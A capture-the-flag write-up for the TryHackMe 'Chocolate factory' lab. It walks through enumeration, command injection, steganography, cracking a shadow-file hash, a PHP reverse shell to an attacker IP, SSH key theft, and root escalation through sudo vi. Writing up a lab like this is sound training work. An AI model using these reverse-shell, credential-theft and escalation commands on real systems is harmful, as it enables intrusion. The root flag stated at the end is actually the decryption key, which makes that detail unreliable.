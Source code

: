 # Room: Chocolate factory

## General Info
- **Room link:** [Chocolate factory](https://tryhackme.com/room/chocolatefactory)


## Description

This room was designed so that hackers can revisit the Willy Wonka's Chocolate Factory and meet Oompa Loompa

## Provided Files / Links
- [x] Target Machine IP (10.10.147.150)

## Enumeration / Recon

- Port Enumeration:
- 
`nmap -sV -sC -Pn 10.10.147.150 -T5`

```
PORT    STATE SERVICE    VERSION
21/tcp  open  ftp        vsftpd 3.0.3
22/tcp  open  ssh        OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http       Apache httpd 2.4.29 ((Ubuntu))
100/tcp open  newacct?
106/tcp open  pop3pw?
109/tcp open  pop2?
110/tcp open  pop3?
111/tcp open  rpcbind?
113/tcp open  ident?
119/tcp open  nntp?
125/tcp open  locus-map?
```

- Directory Enumeration

`gobuster dir -u http://10.10.147.150 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-large-files.txt -t 10`

```
/index.html           (Status: 200) [Size: 1466]
/home.php             (Status: 200) [Size: 569]
/.htaccess            (Status: 403) [Size: 278]
/.                    (Status: 200) [Size: 1466]
/.html                (Status: 403) [Size: 278]
/.php                 (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/validate.php         (Status: 200) [Size: 93]
/.htm                 (Status: 403) [Size: 278]
/.htpasswds           (Status: 403) [Size: 278]
/.htgroup             (Status: 403) [Size: 278]
/wp-forum.phps        (Status: 403) [Size: 278]
/.htaccess.bak        (Status: 403) [Size: 278]
/.htuser              (Status: 403) [Size: 278]
/.htc                 (Status: 403) [Size: 278]
/.ht                  (Status: 403) [Size: 278]
/index.php.bak        (Status: 200) [Size: 273]
/.htaccess.old        (Status: 403) [Size: 278]
/.htacess             (Status: 403) [Size: 278]
```

I then went to /home.php and notice that there was an input field named "command".

I typed 'ls' and got a `key_rev_key` response.

I accessed /key_rev_key and downloaded the key. Then I used strings to find plain text information:

`strings key_rev_key`: **VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY=**.

---

I checked for anonymous access in the ftp port and it worked. I found a gum_room.jpg file. I didn't find anything relevant with strings, file, exiftool but I was able to extract a b64.txt file with steghide (`steghide extract -sf gum_room.jpg`).
The file is a base64 encoded text and when decoded, I got usernames and passwords:

```
daemon:*:18380:0:99999:7:::
bin:*:18380:0:99999:7:::
sys:*:18380:0:99999:7:::
sync:*:18380:0:99999:7:::
games:*:18380:0:99999:7:::
man:*:18380:0:99999:7:::
lp:*:18380:0:99999:7:::
mail:*:18380:0:99999:7:::
news:*:18380:0:99999:7:::
uucp:*:18380:0:99999:7:::
proxy:*:18380:0:99999:7:::
www-data:*:18380:0:99999:7:::
backup:*:18380:0:99999:7:::
list:*:18380:0:99999:7:::
irc:*:18380:0:99999:7:::
gnats:*:18380:0:99999:7:::
nobody:*:18380:0:99999:7:::
systemd-timesync:*:18380:0:99999:7:::
systemd-network:*:18380:0:99999:7:::
systemd-resolve:*:18380:0:99999:7:::
_apt:*:18380:0:99999:7:::
mysql:!:18382:0:99999:7:::
tss:*:18382:0:99999:7:::
shellinabox:*:18382:0:99999:7:::
strongswan:*:18382:0:99999:7:::
ntp:*:18382:0:99999:7:::
messagebus:*:18382:0:99999:7:::
arpwatch:!:18382:0:99999:7:::
Debian-exim:!:18382:0:99999:7:::
uuidd:*:18382:0:99999:7:::
debian-tor:*:18382:0:99999:7:::
redsocks:!:18382:0:99999:7:::
freerad:*:18382:0:99999:7:::
iodine:*:18382:0:99999:7:::
tcpdump:*:18382:0:99999:7:::
miredo:*:18382:0:99999:7:::
dnsmasq:*:18382:0:99999:7:::
redis:*:18382:0:99999:7:::
usbmux:*:18382:0:99999:7:::
rtkit:*:18382:0:99999:7:::
sshd:*:18382:0:99999:7:::
postgres:*:18382:0:99999:7:::
avahi:*:18382:0:99999:7:::
stunnel4:!:18382:0:99999:7:::
sslh:!:18382:0:99999:7:::
nm-openvpn:*:18382:0:99999:7:::
nm-openconnect:*:18382:0:99999:7:::
pulse:*:18382:0:99999:7:::
saned:*:18382:0:99999:7:::
inetsim:*:18382:0:99999:7:::
colord:*:18382:0:99999:7:::
i2psvc:*:18382:0:99999:7:::
dradis:*:18382:0:99999:7:::
beef-xss:*:18382:0:99999:7:::
geoclue:*:18382:0:99999:7:::
lightdm:*:18382:0:99999:7:::
king-phisher:*:18382:0:99999:7:::
systemd-coredump:!!:18396::::::
_rpc:*:18451:0:99999:7:::
statd:*:18451:0:99999:7:::
_gvm:*:18496:0:99999:7:::
charlie:$6$CZJnCPeQWp9jpNx$khGlFdICJnr8R3JCjTR2r7DrbFLp8zq8469d3c0.zuKN4se61FObwWGxcHZqO2RJHkkL1jjPYeeGyIJWE82X/:18535:0:99999:7:::
```

I then used John the Ripper to crack the hash: `john --format=sha512crypt --wordlist=/usr/share/wordlists/rockyou.txt charlie_hash.txt` and found **cn7824**.

---

I went back to /home.php and tested for RCE with the following payload:

`php -r '$sock=fsockopen("10.9.2.55",1337);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'`

I created a listener on my machine (`nc -nlvp 1337`) and was able to get a shell. I stabilized the shell with `python3 -c 'import pty; pty.spawn("/bin/bash")'`.

I found the user flag in charlie's home but I cannot read it yet. In his home directory, I found a 'teleport' file that contains his ssh private key.
I copied his private key in a id_rsa file in my machine and was able to login via ssh (`ssh -i id_rsa charlie@10.10.212.228`).

I was now able to read the user.txt flag: **flag{cd5509042371b34e4826e4838b522d2e}**.

---

I then checked for sudo privileges (`sudo -l`) and found:

```
(ALL : !root) NOPASSWD: /usr/bin/vi
```
I checked https://gtfobins.github.io/gtfobins/vi/ and found that I can get root access with: `sudo vi -c ':!/bin/sh' /dev/null`.

Now that I am root, I went to /root and found a root.py file:

```
from cryptography.fernet import Fernet
import pyfiglet
key=input("Enter the key:  ")
f=Fernet(key)
encrypted_mess= 'gAAAAABfdb52eejIlEaE9ttPY8ckMMfHTIw5lamAWMy8yEdGPhnm9_H_yQikhR-bPy09-NVQn8lF_PDXyTo-T7CpmrFfoVRWzlm0OffAsUM7KIO_xbIQkQojwf_unpPAAKyJQDHNvQaJ'
dcrypt_mess=f.decrypt(encrypted_mess)
mess=dcrypt_mess.decode()
display1=pyfiglet.figlet_format("You Are Now The Owner Of ")
display2=pyfiglet.figlet_format("Chocolate Factory ")
print(display1)
print(display2)
print(mess)
```

The message is encrypted with Fernet. The message is `gAAAAABfdb52eejIlEaE9ttPY8ckMMfHTIw5lamAWMy8yEdGPhnm9_H_yQikhR-bPy09-NVQn8lF_PDXyTo-T7CpmrFfoVRWzlm0OffAsUM7KIO_xbIQkQojwf_unpPAAKyJQDHNvQaJ` and the key is `-VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY=`. 

I then got the root flag: **-VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY=**.
